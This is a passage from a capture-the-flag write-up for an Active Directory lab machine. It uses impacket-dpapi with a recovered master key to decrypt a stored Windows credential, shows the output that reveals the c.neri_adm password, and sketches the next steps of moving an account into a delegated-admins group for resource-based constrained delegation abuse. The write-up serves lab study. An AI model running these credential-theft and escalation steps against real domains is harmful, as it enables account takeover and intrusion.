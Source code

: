 Now to decrypt the key we will use the same impacket tool, with it we execute the following command

```bash
impacket-dpapi credential -file C4BB96844A5C9DD45D5B6A9859252BA6 -key 0xf8901b2125dd10209da9f66562df2e68e89a48cd0278b48a37f510df01418e68b283c61707f3935662443d81c0d352f1bc8055523bf65b2d763191ecd44e525a
```

```bash
❯ impacket-dpapi credential -file C4BB96844A5C9DD45D5B6A9859252BA6 -key 0xf8901b2125dd10209da9f66562df2e68e89a48cd0278b48a37f510df01418e68b283c61707f3935662443d81c0d352f1bc8055523bf65b2d763191ecd44e525a
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[CREDENTIAL]
LastWritten : 2024-06-07 15:08:23
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
Type        : 0x00000001 (CRED_TYPE_GENERIC)
Target      : LegacyGeneric:target=admin_acc
Description : 
Unknown     : 
Username    : vintage\c.neri_adm
Unknown     : Uncr4ck4bl3P4ssW0rd0312
```

The password of `c.neri_adm` is: `Uncr4ck4bl3P4ssW0rd0312`

![Texto alternativo](/assets/vintage/Screenshot%202025-03-07%20135854.jpg)

![Texto alternativo](/assets/vintage/Screenshot%202025-03-07%20135906.jpg)

The next step is to add `C.NERL_ADM` to `DELEGATEDADMINS` so we run the following to add it to the group, however we can use C.Neri to add a SPN to the service account (call it whatever you want) and then use C.Neri_adm to move it to the delegated administrators group, so that we can use this service account to deploy RBCD ABUSE (this service account must be svc_sql, because we only know its password):
